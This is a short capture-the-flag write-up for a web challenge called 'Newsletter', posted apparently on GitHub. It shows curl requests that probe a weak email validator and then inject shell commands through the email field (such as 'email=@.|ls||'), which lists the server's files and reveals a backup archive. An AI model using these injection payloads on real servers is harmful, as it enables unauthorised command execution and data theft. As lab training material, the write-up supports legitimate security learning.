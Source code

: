 # Solve Newsletter
### https://cybertalents.com/challenges/web/Newsletter

![alt text](image.png)

### Run Directory bruteforce

`dirsearch -u http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found

### analyze the response with curl

`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=test'`

`<div class="alert alert-danger">invalid email , email must contain @ & dot</div><!DOCTYPE html>`

Try 
`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=@.'  `

`<div class="alert alert-success   ">Your email inserted successfully</div><!DOCTYPE html>`

So it checks on **@** and **.** only


The challenge discription says that the flag is in a backup file on the server.

## Try Command Injection
`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=@.ls'`

Try to bypass it with `&&`
`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=@.&&ls'`

Try to bypass it with `||`
`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=@.|ls||'`

### we found :
```txt 
emails_secret_1337.txt
hgdr64.backup.tar.gz
index.php
```

The Backup file is `hgdr64.backup.tar.gz`

>Find More on ==> github.com/MedhatHassan